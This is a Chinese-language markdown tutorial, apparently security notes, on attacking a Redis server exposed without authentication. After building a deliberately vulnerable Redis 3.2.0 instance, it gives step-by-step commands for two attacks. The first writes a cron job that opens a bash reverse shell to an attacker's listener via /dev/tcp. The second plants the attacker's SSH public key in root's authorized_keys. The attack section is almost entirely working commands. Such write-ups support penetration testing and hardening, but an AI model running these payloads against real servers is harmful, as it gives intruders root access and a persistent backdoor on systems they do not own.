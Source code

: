- 搭建环境
    ```bash
    wget http://download.redis.io/releases/redis-3.2.0.tar.gz
    tar xzf redis-3.2.0.tar.gz
    cd redis-3.2.0
    make
    ```
    ```vim
    vim redis.conf

    # bind 127.0.0.1
    protected-mode no
    ```
    ```bash
    ./src/redis-server redis.conf
    ```

- 利用
    ```bash
    redis-cli -h <目标IP>
    >info   # 查看 redis 版本信息、一些具体信息、服务器版本信息等等:
    >CONFIG GET dir # 获取默认的 redis 目录
    >CONFIG GET dbfilename # 获取默认的 rdb 文件名
    ```

    **利用计划任务执行命令反弹 shell**

    在 redis 以 root 权限运行时可以写 crontab 来执行命令反弹 shell 先在自己的服务器上监听一个端口 `nc -lvnp 7999` 然后执行命令:
    ```bash
    > config set dir /var/spool/cron
    > set -.- "\n\n\n* * * * * bash -i >& /dev/tcp/192.168.1.1/7999 0>&1\n\n\n"
    > set x "\n* * * * * /bin/bash -i > /dev/tcp/192.168.72.129/7999 0<&1 2>&1\n"
    > config set dbfilename root
    > save
    ```

    **写 ssh-keygen 公钥然后使用私钥登陆**

    在以下条件下,可以利用此方法
    1. Redis 服务使用 ROOT 账号启动
    2. 服务器开放了 SSH 服务,而且允许使用密钥登录,即可远程写入一个公钥,直接登录远程服务器.

    首先在本地生成一对密钥 `ssh-keygen -t rsa` 然后执行命令:
    ```bash
    # 将公钥的内容写到一个文本中命令如下
    (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > test.txt

    # 将里面的内容写入远程的 Redis 服务器上并且设置其 Key 为 test命令如下
    cat test.txt | redis -cli -h <hostname> -x set test
    redis-cli -h <hostname>
    keys *
    get test
    config set dir "/root/.ssh"
    config set dbfilename "authorized_keys"
    save
    ```
    保存后可以直接利用公钥登录 ssh
